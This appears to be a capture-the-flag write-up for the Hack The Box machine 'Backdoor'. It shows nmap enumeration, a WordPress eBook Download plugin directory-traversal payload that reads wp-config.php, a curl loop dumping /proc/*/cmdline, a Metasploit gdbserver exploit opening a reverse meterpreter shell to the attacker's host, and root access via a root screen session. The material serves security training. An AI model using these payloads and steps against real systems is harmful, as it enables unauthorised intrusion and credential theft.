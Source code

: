 ```yaml
---
title:     "Hack The Box - Backdoor"
tags: [linux,easy,wordpress,lfi,gdb,screen,cron]
categories: HackTheBox
excerpt: "Backdoor is an easy rated machine on HackTheBox created by [hkabubaker17](https://www.hackthebox.com/home/users/profile/79623)."
image: /img/backdoor/000_info_card.png
---
```



Backdoor is an easy rated machine on HackTheBox created by [hkabubaker17](https://www.hackthebox.com/home/users/profile/79623). For the user part we will abuse a wordpress plugin vulnerable to LFI to figure out gdbserver is running and listening on all interfaces of the target. After obtaining a shell we are able to escalate by attaching to a root screen session.

# User

As usual we start our enumeration with a nmap scan against all ports, followed by a script and version detection scan against the open ports to gain an initial overview of the attack surface.

## Nmap

`All ports`
```
$ sudo nmap -p- -T4 10.129.199.225
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 20:09 UTC
Nmap scan report for 10.129.199.225
Host is up (0.034s latency).
Not shown: 65468 closed tcp ports (reset), 64 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste

Nmap done: 1 IP address (1 host up) scanned in 1739.42 seconds
```

`Script and version`
```
$ sudo nmap -n -p22,80,1337 -sC -sV 10.129.199.225
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 20:40 UTC
Nmap scan report for 10.129.199.225
Host is up (0.034s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.64 seconds
```


## LFI

Port 1337 from the nmap results seems very interesting but the port does not seem to answer to any data. Going over to port 80 we see a worpress blog running named `Backdoor`.

[![005_wp_home](/img/backdoor/005_wp_home.png)](/img/backdoor/005_wp_home.png)

After poking around at the website we see that we can list the plugins directory.

[![010_plugins_listable](/img/backdoor/010_plugins_listable.png)](/img/backdoor/010_plugins_listable.png)

The installed plugin seems to be vulnerable to LFI in the `filedownload` path.

```
$ searchsploit ebook wordpress
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                                                                                                                                                 | php/webapps/39575.txt
WordPress Plugin Facebook Opengraph Meta 1.0 - SQL Injection                                                                                                                                              | php/webapps/17773.txt
WordPress Plugin Facebook Promotions 1.3.3 - SQL Injection                                                                                                                                                | php/webapps/17737.txt
WordPress Plugin Facebook Survey 1.0 - SQL Injection                                                                                                                                                      | php/webapps/22853.txt
WordPress Plugin flash-album-gallery - 'facebook.php' Cross-Site Scripting                                                                                                                                | php/webapps/36383.txt
WordPress Plugin Nextend Facebook Connect 1.4.59 - Cross-Site Scripting                                                                                                                                   | php/webapps/35439.txt
WordPress Plugin Spider Facebook - 'facebook.php' SQL Injection                                                                                                                                           | php/webapps/39300.txt
WordPress Theme Diary/Notebook Site5 - Email Spoofing                                                                                                                                                     | php/webapps/19862.pl
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```
$ searchsploit -x php/webapps/39575.txt
  Exploit: WordPress Plugin eBook Download 1.1 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/39575
     Path: /usr/share/exploitdb/exploits/php/webapps/39575.txt
File Type: ASCII text
```

```
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
```

Sending a request to repeater in burp we can quickly confirm this.

[![015_lfi_burp](/img/backdoor/015_lfi_burp.png)](/img/backdoor/015_lfi_burp.png)

The found credentials don't fit for anything though, log poisoning doesn't seem possible and we seem to not be able to read an id_rsa. The best shot seems to be the process running on port 1337. One option the get information about the process is to retrieve its `cmdline`. We can fuzz for all processes with a PID of < 5000 using a short bash script and curl.

```
$ for i in {1..5000}; do echo -n "$i: ";curl -s  "http://10.129.199.225/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/$i/cmdline" | sed 's/\(\(\.\.\/\)\{7\}proc\/[0-9]\+\/cmdline\)\{3\}//'| sed 's/<script>window.close()<\/script>/\n/g'; done | tee cmdline_brute
...[snip]...
1: /sbin/initautoautomatic-ubiquitynoprompt
```

After cleaning the list we see that `gdbserver` is running on 1337. (If you didn't find the process in the result you might have to increase the PID after verifying the port is open).

```
$ cat cmdline_brute  | grep -vae '[0-9]\+\: $' | tee processes
1: /sbin/initautoautomatic-ubiquitynoprompt
486: /lib/systemd/systemd-journald
513: /lib/systemd/systemd-udevd
...[snip]...
939: /usr/sbin/cron-f
940: /usr/sbin/CRON-f
941: /usr/sbin/CRON-f
947: /bin/sh-cwhile true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
949: /usr/sbin/atd-f
952: /bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
958: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
976: /usr/sbin/apache2-kstart
977: /sbin/agetty-o-p -- \u--nocleartty1linux
984: /lib/systemd/systemd--user
985: (sd-pam)
989: /usr/sbin/mysqld
1000: SCREEN-dmSroot
1003: -/bin/bash
1006: /usr/sbin/mysqld
1007: /usr/sbin/mysqld
...[snip]...
```

## GDB server

To obtain a shell on `gdbserver`  metasploit is a quick option. We set the rhost, rport, tun0, payload and run the exploit, resulting in a reverse shell on the target as the user user.

```
$ sudo msfconsole
msf6 > use exploit/multi/gdb/gdb_server_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set rhosts 10.129.199.225
rhosts => 10.129.199.225
msf6 exploit(multi/gdb/gdb_server_exec) > set lhost tun0
lhost => tun0
msf6 exploit(multi/gdb/gdb_server_exec) > set rport 1337
rport => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.78:4444
[*] 10.129.199.225:1337 - Performing handshake with gdbserver...
[*] 10.129.199.225:1337 - Stepping program to find PC...
[*] 10.129.199.225:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.129.199.225:1337 - Executing the payload...
[*] Sending stage (3012548 bytes) to 10.129.199.225
[*] Meterpreter session 1 opened (10.10.14.78:4444 -> 10.129.199.225:53046) at 2021-11-20 23:47:07 +0000

meterpreter > getuid
Server username: user
meterpreter > shell
Process 34472 created.
Channel 1 created.
wc -c /home/user/user.txt
33 /home/user/user.txt
```

# Root

We earlier saw in the processes that a while loop is running starting a new detached screen sessions as the root user. Checking the screen binary it has the suid bit set meaning be are probably able to attach to the session.

```
which screen
/usr/bin/screen
ls -la /usr/bin/screen
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
```

First we spawn a terminal device using python. Then we attach to the session following the naming convention username/sessionname. This drops us in a  screen session as the root user and we can read the flag.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
user@Backdoor:~$ export TERM=xterm
export TERM=xterm
user@Backdoor:~$ screen -r root/root
screen -r root/root
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# wc -wc /root/root.txt
wc -wc /root/root.txt
 1 33 /root/root.txt
```